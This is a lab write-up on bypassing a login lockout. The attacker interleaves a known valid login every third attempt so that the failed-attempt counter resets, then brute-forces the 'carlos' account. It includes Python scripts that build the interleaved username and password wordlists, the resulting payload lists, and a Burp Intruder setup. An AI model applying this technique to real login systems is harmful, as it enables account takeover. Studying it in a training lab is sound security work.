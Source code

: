    Broken bruteforce protection 

It is highly likely that a brute-force attack will involve many failed guesses before the attacker successfully compromises an account. Logically, brute-force protection revolves around trying to make it as tricky as possible to automate the process and slow down the rate at which an attacker can attempt logins. The two most common ways of preventing brute-force attacks are:

    Locking the account that the remote user is trying to access if they make too many failed login attempts
    Blocking the remote user's IP address if they make too many login attempts in quick succession

Both approaches offer varying degrees of protection, but neither is invulnerable, especially if implemented using flawed logic. 



POC: 
1. login with a valid id ( the lab provided one "wiener", if there is none, then you create a new one), then log out, and try again with the valid username but incorrecct password. it was discovered that The website blocked any login attemt if three incorrect combinations were tried.  Then i have to wait for a minute before i can attempt to login again. But if i attept to login twice with incorrect passwoord, and on the thrid attept, i use a correct password, it will log me in, and reset the bruteforce counter to zero. this means that using burpsuite an attacker can bruteforce twice with a correct username, ad incorrect password, then on the third attempt, use a valid credential which will login and reset the counter to zero. this can then go on for long untl till the bruteforce is done.

image showing that i have been blocked after three incorrect attempts
![image](https://github.com/user-attachments/assets/85e9b13f-d035-4091-b8d7-b050d5e1322d)


2. To carry out the brutforce, the lab environment provided a valid username (carlos) and a password list, and the aim is to bruteforce until we get the valid password. remember that the login attempt will be blocked on the thrid incorrect attempt. a login request was sent to burp inruder, and the pitchfork option was selected. Then two payload position, username and passwords were added. The resoure pool was set to 1 concurret request. The username  payload was generated to contain "carlos, carlos, wiener" using the code below. This was done to ensure that burp will try the username carlos two times with different password, and on the third attempt, the username "wiener" will be tried with the correct password, therby rseting the counter to zero before the username "carlos" will be tried twice again...

 # Define the repeating pattern
pattern = ["carlos", "carlos", "wiener"]
   
# Calculate how many full repetitions we can have in 100 words
full_repeats = 100 // len(pattern)  # This gives 33 full repeats (99 words)
remainder = 100 % len(pattern)      # 1 word left

# Create the wordlist
wordlist = pattern * full_repeats + pattern[:remainder]

# Optional: print or save to file
print(" ".join(wordlist))

# To save to a file:
with open("wordlist.txt", "w") as f:
    f.write(" ".join(wordlist))

The payload is now 

                  carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wienercarlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos carlos wiener carlos


Also the payload for the password position was generated to contain the paassword for "wiener" account at every third entry "peter" by modifying the payload the website gave using the following code


            #!/usr/bin/python3
with open('original_wordlist.txt', 'r') as f:
    words = f.read().splitlines()

output = []
for i in range(0, len(words), 2):
    output.append(words[i])
    if i + 1 < len(words):
        output.append(words[i + 1])
    output.append('peter')

with open('modified_wordlist.txt', 'w') as f:
    for word in output:
        f.write(word + '\n')


and it gave this final wordlist          

123456
password
peter
12345678
qwerty
peter
123456789
12345
peter
1234
111111
peter
1234567
dragon
peter
123123
baseball
peter
abc123
football
peter
monkey
letmein
peter
shadow
master
peter
666666
qwertyuiop
peter
123321
mustang
peter
1234567890
michael
peter
654321
superman
peter
1qaz2wsx
7777777
peter
121212
000000
peter
qazwsx
123qwe
peter
killer
trustno1
peter
jordan
jennifer
peter
zxcvbnm
asdfgh
peter
hunter
buster
peter
soccer
harley
peter
batman
andrew
peter
tigger
sunshine
peter
iloveyou
2000
peter
charlie
robert
peter
thomas
hockey
peter
ranger
daniel
peter
starwars
klaster
peter
112233
george
peter
computer
michelle
peter
jessica
pepper
peter
1111
zxcvbn
peter
555555
11111111
peter
131313
freedom
peter
777777
pass
peter
maggie
159753
peter
aaaaaa
ginger
peter
princess
joshua
peter
cheese
amanda
peter
summer
love
peter
ashley
nicole
peter
chelsea
biteme
peter
matthew
access
peter
yankees
987654321
peter
dallas
austin
peter
thunder
taylor
peter
matrix
mobilemail
peter
mom
monitor
peter
monitoring
montana
peter
moon
Moscow


and the attack commenced....


picture showing the request on burp intruder
![image](https://github.com/user-attachments/assets/70875ba4-acd2-4a1b-8586-1f28dd30ff9c)



The bruteforce was successful, as all the payloads that had weiner and her password responded back with 302, and the a single payload that contains carlos, and the rght passwword also returned 302 




Picture showing the success
![image](https://github.com/user-attachments/assets/4ac4b225-5010-48a7-9ba2-a16238f7d9d9)
